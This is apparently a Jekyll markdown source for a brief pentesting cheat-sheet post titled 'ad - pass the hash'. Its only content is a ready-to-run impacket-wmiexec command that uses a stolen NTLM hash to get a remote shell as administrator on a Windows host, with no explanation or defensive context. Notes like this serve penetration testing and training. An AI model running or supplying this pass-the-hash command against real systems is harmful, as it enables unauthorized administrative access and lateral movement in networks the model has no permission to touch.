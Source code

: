 ```yaml
---
layout: post
title:  "ad - pass the hash"
date:   2022-01-01
categories: windows
---
```



## remote wmiexec

```bash
impacket-wmiexec -hashes :<ntml> administrator@10.10.10.10
```